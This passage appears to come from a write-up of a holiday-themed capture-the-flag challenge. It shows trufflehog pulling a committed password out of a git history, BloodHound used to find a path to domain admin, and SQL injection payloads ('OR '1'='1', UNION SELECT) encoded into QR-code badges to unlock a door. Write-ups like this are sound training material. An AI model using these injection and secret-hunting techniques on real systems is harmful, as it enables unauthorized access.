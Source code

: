 {% highlight shell %}
$ trufflehog --entropy true santas_castle_automation
...
Reason: High Entropy
Date: 2018-12-11 08:16:57
Hash: 0dfdc124b43a4e7e1233599c429c0328ec8b01ef
Filepath: schematics/files/dot/PW/for_elf_eyes_only.md
Branch: origin/master
Commit: important update

-Password = 'Yippee-ki-yay'
...
{% endhighlight %}

Which gives us the password: "Yippee-ki-yay"

## Objective 5 - AD Privilege Discovery

I imported the VM into VMWare Player, started it and launched Bloodhound.
In Bloodhound, I ran the query "Shortest patch to DA from kerberoastable".
Looking at the graph, I ignored all edges marked "CanRDP" and thus arrived at the only remaining account: "LDUBEJ00320@AD.KRINGLECASTLE.COM"

## Obj 6 - Badge Manipulation

We can analyze the given badge with zbarimg.

{% highlight shell %}
$ zbarimg alabaster_badge.jpg
QR-Code:oRfjg5uGHmbduj2m
{% endhighlight %}

The badge contains an ID and the hypothesis is that it is passed to an SQL query.
We try encoding and submitting some QR codes with an SQL injection payload.
The following attempts gives various types of errors:

{% highlight shell %}
$ qrencode -o badge_hack.png "' OR '1'='1"
$ qrencode -o badge_hack.png "'/**/OR/**/'1'='1" 
$ qrencode -o badge_hack.png "'/**/OR/**/'1'='0"
{% endhighlight %}

This tells us that the account found by the 1=1 is disabled so we need to insert a dummy account with a UNION statement.
We try until we get the number of columns right.

{% highlight shell %}
$ qrencode -o badge_hack2.png "' UNION SELECT 1;#"
...
$ qrencode -o badge_hack2.png "' UNION SELECT 1,2,3;#"
{% endhighlight %}

This unlocks the door and gives us the access control number: 19880715

## Objective 7 - HR Incident Response
